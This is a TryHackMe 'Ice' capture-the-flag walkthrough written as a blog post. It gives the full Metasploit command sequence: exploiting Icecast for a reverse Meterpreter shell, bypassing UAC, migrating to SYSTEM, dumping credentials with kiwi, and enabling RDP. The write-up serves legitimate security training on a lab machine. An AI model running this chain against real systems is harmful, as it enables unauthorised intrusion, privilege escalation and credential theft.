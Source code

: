 ```yaml
---
title: "TryHackMe - Ice - Walkthrough"
date: 2020-11-27T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - ice
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for room: [Ice][ice-r], on [TryHackMe][thm]. This is an easy walkthrough room. Let’s get started!

# Recon
We are going to start with an `nmap` scan:

![i1](/assets/images/thm/ice/i1.png)

We can utilize the `nmap` scan to answer the first 3 questions of the room.

# Gain Access
Let’s do some googling and look for the CVE score of the icecast vulnerability. Here is a link to the list of vulnerabilities: [Link][ice-v]. Here we find out next two answers.

Start metasploit:

```bash
msfconsole
search icecast ##(find next answer)
use 0
options
set rhosts 10.10.35.203
set lhost tun0 ##(if needed)
run
```
Wow. We got a shell! That was pretty easy. Let’s continue on!

![i2](/assets/images/thm/ice/i2.png)

# Escalate
We get the first answer right away. Next let’s run the following for more answers:

`getuid`
`sysinfo`
**NOTE:** Normally, I would back out of this exploit, and change the payload of our meterpreter shell to x64 instead of our current x86 (we always want those to line up), but in this case I am just going to keep going.

```bash
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/bypassuac_eventvwr
options
set sessions 1 #(Your session could be a different number)
set lhost tun0
set lport 4445 #(We already have a session on 4444)
run
getprivs
```
We now have elevated permissions! Last answer can be found from the output of the `getprivs` command.

![i3](/assets/images/thm/ice/i3.png)

# Looting
Let’s run `ps`, where we find our next answer:

![i4](/assets/images/thm/ice/i4.webp)

Now we can migrate to that process with `migrate -N <process_name>`

**NOTE:** We can also migrate by using the Process ID (PIC): `migrate 692`

Now when we run getuid we are: `NT AUTHORITY\SYSTEM`. WOOHOO!

```bash
load kiwi
help
creds_all
```
With that, we have completed this section! Almost done!

# Post-Exploitation
Run `help` to answer all the questions in this section.

Enable RDP: `run post/windows/manage/enable_rdp`

# Extra Credit
That’s all there is to this room! Try doing the manual exploitation on your own!

# Review
This was a really interesting walkthrough room. While it was heavily guided, I liked how it followed the process of how you would do a pentest on the machine in a way that somewhat resembles the real-world. I hope you enjoyed this walkthrough!

References
[Ice Room][ice-r] | [TryHackMe][thm] | [Icecast Vulns][ice-v]

[ice-r]: https://tryhackme.com/r/room/ice
[thm]: https://tryhackme.com
[ice-v]: https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-16877/Icecast-Icecast-2.0.1.html